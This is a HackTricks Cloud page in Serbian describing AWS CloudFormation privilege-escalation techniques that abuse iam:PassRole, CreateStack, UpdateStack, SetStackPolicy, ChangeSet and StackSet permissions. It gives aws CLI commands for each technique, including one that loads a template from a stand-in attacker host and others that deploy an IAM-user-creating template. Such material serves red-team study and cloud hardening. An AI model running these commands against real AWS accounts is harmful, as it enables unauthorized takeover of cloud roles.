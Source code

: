 # AWS - Cloudformation Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## cloudformation

Za više informacija o cloudformation, proverite:

{% content-ref url="../../aws-services/aws-cloudformation-and-codestar-enum.md" %}
[aws-cloudformation-and-codestar-enum.md](../../aws-services/aws-cloudformation-and-codestar-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, `cloudformation:CreateStack`

Napadač sa ovim dozvolama **može eskalirati privilegije** kreiranjem **CloudFormation stack-a** sa prilagođenim šablonom, hostovanim na njihovom serveru, da **izvrši akcije pod dozvolama određenog rola:**
```bash
aws cloudformation create-stack --stack-name <stack-name> \
--template-url http://attacker.com/attackers.template \
--role-arn <arn-role>
```
Na sledećoj stranici imate **primer eksploatacije** sa dodatnom dozvolom **`cloudformation:DescribeStacks`**:

{% content-ref url="iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md" %}
[iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md](iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md)
{% endcontent-ref %}

**Potencijalni uticaj:** Privesc na servisnu ulogu cloudformation-a koja je navedena.

### `iam:PassRole`, (`cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`)

U ovom slučaju možete **zloupotrebiti postojeći cloudformation stack** da ga ažurirate i eskalirate privilegije kao u prethodnom scenariju:
```bash
aws cloudformation update-stack \
--stack-name privesc \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::91029364722:role/CloudFormationAdmin2 \
--capabilities CAPABILITY_IAM \
--region eu-west-1
```
The `cloudformation:SetStackPolicy` dozvola se može koristiti da **dajte sebi `UpdateStack` dozvolu** nad stogom i izvršite napad.

**Potencijalni uticaj:** Privesc na cloudformation servisnu ulogu koja je navedena.

### `cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`

Ako imate ovu dozvolu, ali **nemate `iam:PassRole`**, i dalje možete **ažurirati stogove** koji se koriste i zloupotrebiti **IAM uloge koje su već povezane**. Proverite prethodni odeljak za primer eksploatacije (samo nemojte navoditi nijednu ulogu u ažuriranju).

Dozvola `cloudformation:SetStackPolicy` se može koristiti da **dajte sebi `UpdateStack` dozvolu** nad stogom i izvršite napad.

**Potencijalni uticaj:** Privesc na cloudformation servisnu ulogu koja je već povezana.

### `iam:PassRole`,((`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

Napadač sa dozvolama da **prođe ulogu i kreira & izvrši ChangeSet** može **kreirati/ažurirati novi cloudformation stog i zloupotrebiti cloudformation servisne uloge** baš kao sa CreateStack ili UpdateStack.

Sledeća eksploatacija je **varijacija**[ **CreateStack one**](./#iam-passrole-cloudformation-createstack) koristeći **ChangeSet dozvole** za kreiranje stoga.
```bash
aws cloudformation create-change-set \
--stack-name privesc \
--change-set-name privesc \
--change-set-type CREATE \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::947247140022:role/CloudFormationAdmin \
--capabilities CAPABILITY_IAM \
--region eu-west-1

echo "Waiting 2 mins to change the stack"
sleep 120

aws cloudformation execute-change-set \
--change-set-name privesc \
--stack-name privesc \
--region eu-west-1

echo "Waiting 2 mins to execute the stack"
sleep 120

aws cloudformation describe-stacks \
--stack-name privesc \
--region eu-west-1
```
Dozvola `cloudformation:SetStackPolicy` može se koristiti za **dodeljivanje sebi `ChangeSet` dozvola** nad stekom i izvršavanje napada.

**Potencijalni uticaj:** Privesc na cloudformation servisne uloge.

### (`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

Ovo je kao prethodna metoda bez prosleđivanja **IAM uloga**, tako da možete samo **zloupotrebiti već pridružene**, samo izmenite parametar:
```
--change-set-type UPDATE
```
**Potencijalni Uticaj:** Privesc na cloudformation servisnu ulogu koja je već povezana.

### `iam:PassRole`,(`cloudformation:CreateStackSet` | `cloudformation:UpdateStackSet`)

Napadač bi mogao zloupotrebiti ove dozvole da kreira/aktualizuje StackSets kako bi zloupotrebio proizvoljne cloudformation uloge.

**Potencijalni Uticaj:** Privesc na cloudformation servisne uloge.

### `cloudformation:UpdateStackSet`

Napadač bi mogao zloupotrebiti ovu dozvolu bez passRole dozvole da ažurira StackSets kako bi zloupotrebio povezane cloudformation uloge.

**Potencijalni Uticaj:** Privesc na povezane cloudformation uloge.

## Reference

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

{% hint style="success" %}
Učite i vežbajte AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Učite i vežbajte GCP Hacking: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podržite HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** nas na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Podelite hakerske trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}
